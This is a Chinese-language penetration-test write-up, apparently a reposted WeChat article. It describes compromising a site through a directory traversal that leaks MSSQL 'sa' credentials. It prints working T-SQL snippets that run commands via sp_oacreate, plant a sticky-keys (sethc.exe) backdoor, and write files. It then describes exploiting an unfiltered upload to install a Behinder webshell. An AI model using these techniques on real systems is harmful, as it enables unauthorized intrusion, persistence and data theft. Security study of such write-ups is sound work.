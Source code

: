 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/k4z_PrGtLYEak0ei0dgydw)

**一、目录遍历**
==========

在对目标进行目录扫描的时候，发现其 app 目录存在目录遍历。 
--------------------------------

![](https://mmbiz.qpic.cn/mmbiz_png/B0Ov264SNIJkUUGdmU7jXnSAibnuO2iaFvsqHPu7cic7w0QyibNh6BUQPDR31uDWibMicV5yBOXTJrMiau5vXfZO5gbng/640?wx_fmt=png)

在目录中发现了 app 的备份文件，在备份中找到了其数据库文件

![](https://mmbiz.qpic.cn/mmbiz_png/B0Ov264SNIJkUUGdmU7jXnSAibnuO2iaFvWp2mY33dGcfhEia9fCeYU8BVwrwMuugDpVfnFFwaicfzCb3ibjCumCCgg/640?wx_fmt=png)

 竟然使用的是 sa 账户连接的！！！

主站无 CDN，且 IP 地址与数据库配置文件中的 IP 不一致，典型的站库分离。

![](https://mmbiz.qpic.cn/mmbiz_png/B0Ov264SNIJkUUGdmU7jXnSAibnuO2iaFvqIGW3m0wtXjswqdJAyfl0ibK2692tCyaTzQHMJ2hmibvia1O1Nv61U8KQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/B0Ov264SNIJkUUGdmU7jXnSAibnuO2iaFvJTnuuoia6ncuPoloia0vJUMDKIK7W6CTOkGL61savI5BekibicNkKuWlOQ/640?wx_fmt=png)

现在有 Sa 的账号密码，先从数据库开始渗透。

### 2、Mssql 渗透

#### （1）Xp_cmdshell

使用 sqlmap 直连数据库

```
sqlmap -d "db_type://user:pwd@ip:port/db" command
```

无法执行命令也没有回显，但是得到其版本为 2000。

![](https://mmbiz.qpic.cn/mmbiz_png/B0Ov264SNIJkUUGdmU7jXnSAibnuO2iaFvQk9k9ZW5VmVZibcTy7nibXkzsmWwRTQCxaia9lMWnZb03GdbScXiba2R0g/640?wx_fmt=png)

尝试连接数据库手动执行命令。

Navicat 不支持连接 Mssql2000，这里改用 Database4 来连接。

Mssql2005 及以上版本默认关闭 Xp_cmdshell，2000 可以直接调用 Xp_cmdshell 执行命令。

连上之后执行命令报错了，

![](https://mmbiz.qpic.cn/mmbiz_png/B0Ov264SNIJkUUGdmU7jXnSAibnuO2iaFvU8dN7GiabQCYeK5UqvBrEzEu4FBoQtDZmTRaJqJH6pSApReypQtPib9w/640?wx_fmt=png)

查了一下可能是因为数据库没权限创建 Cmd 进程。 

![](https://mmbiz.qpic.cn/mmbiz_png/B0Ov264SNIJkUUGdmU7jXnSAibnuO2iaFv5ibEbEzQIAw1LibYNWf3dibOLnh8OSWxsP6E92ED6jpFfaSjMyeltOIiaQ/640?wx_fmt=png)

#### （2）Sp_oacreate 执行命令

sp_oacreate 的劣勢是沒有回显，但是可以将命令的输出写到文件，我们再读取文件即可。

找到了 Sp_oacreate 两种执行命令的方式

```
declare @o int
exec sp_oacreate 'Shell.Application', @o out
exec sp_oamethod @o, 'ShellExecute',null, 'cmd.exe','cmd
/c whoami >e:\test.txt','c:\windows\system32','','1';

declare @shell int exec sp_oacreate 'wscript.shell',@shell output exec sp_oamethod @shell,'run',null,'c:\windows\system32\cmd.exe /c whoami > c:\\1.txt'
```

在这里执行这两条命令，都会直接卡死，估计是被拦了。  

![](https://mmbiz.qpic.cn/mmbiz_png/B0Ov264SNIJkUUGdmU7jXnSAibnuO2iaFvt9d2ibkc8EfzOicUDVeKmtr5Hm83N1Hvsic82Qg8HlIMlNwcbibaRqfs9g/640?wx_fmt=png)

#### （3）Sp_oacreate 粘贴键替换调用 Cmd

这种方式等于是做了一个 shift 后门。

```
declare @o int
exec sp_oacreate 'scripting.filesystemobject', @o out exec sp_oamethod @o, 'copyfile',null,'c:\windows\explorer.exe'
,'c:\windows\system32\sethc.exe';


declare @o int
exec sp_oacreate 'scripting.filesystemobject', @o out exec sp_oamethod @o, 'copyfile',null,'c:\windows\system32\sethc.exe'
,'c:\windows\system32\dllcache\sethc.exe';
```

语句可以成功執行，但是调不出来，未知原因。

![](https://mmbiz.qpic.cn/mmbiz_png/B0Ov264SNIJkUUGdmU7jXnSAibnuO2iaFvNz6P5bqPrxJ8H6rjWIVhNM4vRaGTEJ3icAnWgoPDeN9oWoc50WeqCFw/640?wx_fmt=png)

#### （4）Sp_oacreate 读写文件

这个功能

![](https://mmbiz.qpic.cn/mmbiz_png/B0Ov264SNIJkUUGdmU7jXnSAibnuO2iaFvmpBQwuS4IyTv4eycMeRYptvW2Cfgd8JT1jIxruEPctzmicV29tZnQxw/640?wx_fmt=png)

在有 Web 服务的时候很好用

```
declare @o int, @f int, @t int, @ret int
exec sp_oacreate 'scripting.filesystemobject', @o out exec sp_oamethod @o, 'createtextfile', @f out, 'e:\tmp1.txt', 1
exec @ret = sp_oamethod @f, 'writeline', NULL,'tes1t'
```

![](https://mmbiz.qpic.cn/mmbiz_png/B0Ov264SNIJkUUGdmU7jXnSAibnuO2iaFvr6C45bTic5YyJib3E7IWpXpEupacu1XtSYfqED9Wvw8cSNOqkdicegnibw/640?wx_fmt=png)

查看目录结构

```
execute master..xp_dirtree 'e:\',1,1
```

![](https://mmbiz.qpic.cn/mmbiz_png/B0Ov264SNIJkUUGdmU7jXnSAibnuO2iaFvmpBQwuS4IyTv4eycMeRYptvW2Cfgd8JT1jIxruEPctzmicV29tZnQxw/640?wx_fmt=png)

查看文件内容
------

表名不能重复，查一次换一次表名。

![](https://mmbiz.qpic.cn/mmbiz_png/B0Ov264SNIJkUUGdmU7jXnSAibnuO2iaFvQPiayTHGNIaq72cgEW7JAhtESxTKzgWXQ4roUJXvddDLtje7Al70b4Q/640?wx_fmt=png)

### 3、代码审计

代码审计过程中，在源码中找到一个 Upload 功能，对上传文件没有做任何防护。会直接将上传的文件，上传到 http:// 主站 IP:8082/upload 下。

![](https://mmbiz.qpic.cn/mmbiz_png/B0Ov264SNIJkUUGdmU7jXnSAibnuO2iaFvCjrrAicO1Jq2LaPbdqiaEzrqxkXo1ibW6RicqJNLKM9LiafTMohBPrqllLA/640?wx_fmt=png)

构造 html 上传页面，并将其提交到 app 目录下的这个 upload.php 文件即可。

![](https://mmbiz.qpic.cn/mmbiz_png/B0Ov264SNIJkUUGdmU7jXnSAibnuO2iaFvUicUqdOh5GrI0Zg9VmMHwgURf4ZNiaCwbPia48cOjHXpwrzZaQ11CQ8tw/640?wx_fmt=png)

先上传一个正常 "萨斯该" 的图片

![](https://mmbiz.qpic.cn/mmbiz_png/B0Ov264SNIJkUUGdmU7jXnSAibnuO2iaFvHcUaVe0vHF0dZJSdA3CJKFTp6LJJibzOdibiafHv0QvJ2R6KiaVqULqX5Q/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/B0Ov264SNIJkUUGdmU7jXnSAibnuO2iaFviach6nVdyO9Gu2Sozk5JuibyowDrH34u5w4Puhp6dq30FRk3UTQjC2Wg/640?wx_fmt=png)

这里有个坑，他给的路径是错的直接访问找不到。最后在主站下边的这个 app 目录下找到了

![](https://mmbiz.qpic.cn/mmbiz_png/B0Ov264SNIJkUUGdmU7jXnSAibnuO2iaFvnfhWJPwYSHcolF3SUUBWCh0tVxwjNhkvrDok0aibppaNZ4picj9g7QgQ/640?wx_fmt=png)

上传 Webshell，刚上传一句话木马被杀了。

以为 php 不能上传，上传了个 phpinfo 可以执行，改上传冰蝎的马成功 Getshell。

![](https://mmbiz.qpic.cn/mmbiz_png/B0Ov264SNIJkUUGdmU7jXnSAibnuO2iaFvbZ7WGTDChGUwqhPCPq1NhhNhwicLu41LuMQVhSIvbMlqDde9GTICJSg/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/B0Ov264SNIJkUUGdmU7jXnSAibnuO2iaFvlXP1xWkATvG462NfQdwDB2uJ5bD5jxgibIaa4ZnCpic5clGAdFCHhvnQ/640?wx_fmt=png)

文章首发：先知社区 未经作者允许禁止转载

![](https://mmbiz.qpic.cn/mmbiz_gif/B0Ov264SNIIjeG1nUThibTFN6DRNDtGT7endzn6sEeFPPJ9l0YuWNltcsD1ia5D9TBwn9bwVn61YuLh1YetIFXEg/640?wx_fmt=gif)

点分享

![](https://mmbiz.qpic.cn/mmbiz_gif/B0Ov264SNIIjeG1nUThibTFN6DRNDtGT7YGzlxzZ4LT3cQyPyam7lswKTUE1XbicMzD7yxGV9Fe7mP3d3Nrbup7w/640?wx_fmt=gif)

点点赞

![](https://mmbiz.qpic.cn/mmbiz_gif/B0Ov264SNIIjeG1nUThibTFN6DRNDtGT7ZXibYCtiba6HVx71LdjPicsn10FKhxkSpibuDldMXS7iaXwqyFbIWHiaCUIg/640?wx_fmt=gif)

点在